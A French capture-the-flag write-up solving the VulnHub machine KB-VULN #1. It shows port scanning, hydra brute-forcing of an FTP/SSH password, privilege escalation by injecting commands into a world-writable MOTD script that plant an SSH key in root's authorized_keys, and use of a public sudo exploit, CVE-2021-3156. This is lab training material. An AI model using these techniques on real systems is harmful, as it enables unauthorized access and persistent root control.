 # Solution du CTF KB-VULN #1 de VulnHub

Rapide et furieux
-----------------

Combien de temps faut-il pour résoudre un CTF ? Tout dépend bien sûr de la difficulté du challenge et des compétences du joueur.  

Pour celui-ci ([KB-VULN n°1](https://www.vulnhub.com/entry/kb-vuln-1,540/)) on est bien plus près des minutes que des heures, il n'en reste pas moins qu'on peut s'amuser (vite fait).  

```plain
Nmap scan report for 192.168.56.5
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: OneSchool — Website by Colorlib
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Dans le FTP on trouve un fichier *.bash\_history*. Est-ce le dossier personnel d 'un utilisateur quelconque ? Dans tous les cas on ne dispose pas d'accès en écriture donc on s'arrête là.  

Une énumération de la racine web ne remonte rien mais un coup d'oeil à la source de la page d'index permet de trouver un nom d'utilisateur :  

```html
<!-- Username : sysadmin -->
```

Aussitôt dit, aussitôt cracké :  

```plain
$ ./hydra -l sysadmin -P rockyou.txt -e nsr ftp://192.168.56.5
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344407 login tries (l:1/p:14344407), ~896526 tries per task
[DATA] attacking ftp://192.168.56.5:21/
[21][ftp] host: 192.168.56.5   login: sysadmin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Cet identifiant permet l'accès au FTP mais surtout au SSH où l'on retrouve un premier flag.  

```plain
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
```

Cet utilisateur fait partie des groupes sudo et lxd :  

```plain
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Un petit coup de LinPEAS indique que le fichier */etc/update-motd.d/00-header* appartenant à root mais est word-writable.  

D'après [la page de manuel](https://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html) :  

```plain
Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at
each  login,  and  this  information  is  concatenated in /run/motd.dynamic.
```

Le script actuel est le suivant :  

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
```

Je rajoute ces lignes :

```bash
echo $(id)
mkdir -p /root/.ssh
echo 'ssh-rsa --ma-cle-publique-ssh--' > /root/.ssh/authorized_keys
```

Et effectivement si je me reconnecte :  

```plain
$ ssh sysadmin@192.168.56.5
sysadmin@192.168.56.5's password: 

                        WELCOME TO THE KB-SERVER

uid=0(root) gid=0(root) groups=0(root)
```

Ce qui prouve que le script a été exécuté en root et que je me suis rajouté un accès.  

```plain
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

On peut aussi obtenir l'accès root via [l'exploit pour sudo](https://github.com/worawit/CVE-2021-3156) utilisé sur le précédent CTF (Fawkes) :  

```plain
sysadmin@kb-server:~/CVE-2021-3156-main$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(sysadmin)
```


*Published December 07 2021 at 21:51*